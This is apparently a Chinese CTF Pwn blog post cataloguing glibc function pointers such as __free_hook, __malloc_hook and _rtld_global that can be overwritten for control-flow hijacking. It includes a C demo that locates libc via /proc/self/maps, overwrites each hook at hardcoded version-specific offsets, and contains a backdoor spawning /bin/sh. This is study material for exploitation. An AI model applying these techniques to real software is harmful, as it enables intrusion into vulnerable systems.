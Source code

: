 ```yaml
---
title: CTF Pwn 题中 libc 可用 函数指针 （攻击位置） 整理
date: 2021-05-31 00:00:00
categories:
- CTF/Pwn
tags: 
---
```


> 更新中...在内存破坏漏洞的攻击过程中，攻击者的最终目标一般来说是控制流劫持。如果攻击者能获得一个任意地址写（aaw）的能力，则之后的需要做的就是修改的在**间接跳转**过程中被使用的关键数据。首先能想到的就是**函数指针**，因为其内容就是间接跳转的目标地址。另外还有可能是对间接跳转的起着间接影响的数据，比如多级指针、数组索引等，不过落到最后仍然是函数指针。攻击大流程走到这步，攻击这个动词的宾语就变成了某个数据、变量、内存位置，比如攻击`__free_hook`。本文对CTF Pwn题中 常见的 位于libc中的 可以被攻击者利用进行控制流劫持的 函数指针 以及 触发方式 进行了整理。

| 攻击变量        | 触发函数  |
| --------------- | --------- |
| __free_hook     | free()    |
| __malloc_hook   | malloc()  |
| __realloc_hook  | realloc() |
| __libc_atexit   | exit()    |
| _rtld_global    | exit()    |
| prepare_handler | fork()    |

1. 攻击的数据本身就是函数指针：没啥说的直接改就行。
2. 攻击数据本身是多级指针，需要多级解引用后才能真正触发到间跳转：攻击多级指针本体并构造指针指向的合法数据，如果直接攻击最终有效的间接跳转，则退化为1。
3. 攻击数据本身是指针链表的索引：攻击索引，使其索引计算完成后为劫持地址，如果直接攻击指针链表，则退化为1。

```c
# include <stdio.h>
# include <sys/types.h>
# include <sys/stat.h>
# include <fcntl.h>
# include <unistd.h>
# include <sys/mman.h>
# include <string.h>
# include <stdlib.h>

void backdoor(){
    system("/bin/sh");
}

long long * get_addr(char * pattern){
    char buf [0x1000] = {0};
    read(open("/proc/self/maps",0),buf,0x1000);

    char * tmp = strtok(buf, "\n");
    while (tmp)
    {   
        if(strstr(tmp,pattern)){
            long long * leak_addr;
            sscanf(tmp,"%p",&leak_addr);
            return leak_addr;
        }
        tmp = strtok(NULL, "\n");
    }
}

void aaw(long long *addr,long long data){
    * addr = data;
}


void attack_malloc_hook(){
     // address information
     long long   * libc_base   =   get_addr("libc-2.23.so");
     long long     malloc_hook =   0x3c4b10 / 8;

     // attack
     aaw(libc_base + malloc_hook , 0xdeadbeefdeadbeef) ;

     // trigger
     // printf("%s",0x400000); //printf also can trigger malloc
     malloc(10);
     
}
void attack_realloc_hook(){
     // address information
     long long   * libc_base   =   get_addr("libc-2.23.so");
     long long     malloc_hook =   0x3c4b08 / 8;

     // attack
     aaw(libc_base + malloc_hook , 0xdeadbeefdeadbeef) ;

     // trigger
     realloc(0,0);
}
void attack_free_hook(){
    // https://lantern.cool/note-pwn-free-hook/
    // address information
    long long   * libc_base   =   get_addr("libc-2.23.so");
    long long     free_hook   =   0x3c67a8 / 8;

    // attack
    aaw(libc_base + free_hook ,   0xdeadbeefdeadbeef) ;

    // trigger
    free("");
}
void attack_libc_atexit(){
    // https://xz.aliyun.com/t/6260
    // ubuntu version >= 19 

    // address information
    // ubuntu 16.04 glibc 2.23 __libc_atexit 0x3c08d8 read only
    // ubuntu 18.04 glibc 2.27 __libc_atexit 0x3e7738 read only
    long long   * libc_base   =   get_addr("libc-2.31");
    long long     libc_atexit =   0x1ed608 / 8;

    // attack
    aaw(libc_base + libc_atexit , 0xdeadbeefdeadbeef) ;

    // trigger
    exit(0);
}
void attack_rtld_global(){
    //  https://www.cnblogs.com/bhxdn/p/14222558.html
    //  libc-2.23 _rtld_global:0x5f0040   __rtld_lock_lock_recursive: 3848  __rtld_lock_unlock_recursive: 3856
    //  libc-2.27 _rtld_global:0x619060   __rtld_lock_lock_recursive: 3840  __rtld_lock_unlock_recursive: 3848
    //  libc-2.31 _rtld_global:0x23e060   __rtld_lock_lock_recursive: 3848  __rtld_lock_unlock_recursive: 3856

    // address information
    long long   * libc_base      =  get_addr("libc-2.31");
    long long     libc_exit_rtld =  (0x23e060+3848) / 8;

    // attack
    aaw(libc_base + libc_exit_rtld , 0xdeadbeefdeadbeef) ;

    // trigger
    exit(0);
}
void attack_fork_prepare_handler(){
    // https://xuanxuanblingbling.github.io/ctf/pwn/2019/10/14/warmup/
    // prepare: address information and payload ptr
    long long   * libc_base   =   get_addr("libc-2.23.so");
    long long     fork_ptr    =   0x3c9748 / 8;
    long long     payload[6]  =   {0,0xdeadbeefdeadbeef,0,0,0,1};

    // attack
    aaw(libc_base + fork_ptr , payload) ;

    // trigger
    fork();
}

int main(){
    attack_free_hook();
}
```
